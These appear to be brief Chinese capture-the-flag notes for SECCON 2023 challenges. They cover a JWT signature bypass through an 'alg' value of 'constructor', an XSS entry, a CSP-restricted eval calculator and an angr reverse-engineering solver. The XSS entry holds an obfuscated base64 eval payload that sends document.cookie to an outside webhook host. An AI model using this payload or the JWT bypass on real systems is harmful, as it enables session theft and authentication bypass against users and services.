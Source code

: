 # web
### BadJwt
#nodejs
传入jwt,token为输入,secret为服务器随机生成36位密钥.下面这个函数负责计算secret
```js

const createSignature = (header, payload, secret) => {
	const data = `${stringifyPart(header)}.${stringifyPart(payload)}`;
	const signature = algorithms[header.alg.toLowerCase()](data, secret);
	return signature;
}

const algorithms = {
	hs256: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha256', secret).update(data).digest()),
	hs512: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha512', secret).update(data).digest()),
}
```

当传入特殊的属性如`constructor`时,`algorithms[header.alg.toLowerCase()](data, secret);`
返回函数的构造方法,
![image](https://i.imgur.com/8CnkB7o.png)
>TL;DR explanation: 
`const signature = algorithms[header.alg.toLowerCase()](data, secret);` is vulnerable to ["constructor"], calling the array constructor with the params -> results in an arr of dicts
const calculated_buf = Buffer.from(calculated_signature, 'base64'); casts everything to a primitive -> arr of dict gets "stringified"

### blink
#xss 
popover框架
```html
<iframe srcdoc="<a id=togglePopover href='cid:eval(atob(`ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlL2RjZTFiNmZjLTQ1M2MtNDI1Zi1hY2MyLTAwNTFkY2Y4NWMxOD8nK2RvY3VtZW50LmNvb2tpZSk`))'></a>" name="body"></iframe>
```
### eeeeejs


### simple calc
#xss 
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230919224449.png)

eval执行任意代码,但是存在csp `default-src http://simplecalc.seccon.games:3000/js/index.js 'unsafe-eval';

限制了源
# reverse
### jumpout

```python
import angr
import claripy
p = angr.Project('./jumpout', load_options={"auto_load_libs": False}) 
argv = [p.filename]
state = p.factory.entry_state(args = argv)
simgr = p.factory.simulation_manager(state)

simgr.explore(find=lambda s: b"Correct" in s.posix.dumps(1))

if len(simgr.found) > 0:
    state = simgr.found[0]
    print(state.posix.dumps(0))
else: print("Not found...")
```
# pwn

# crypto

# Misc


---
# *相关wp*




2023-09-19   14:50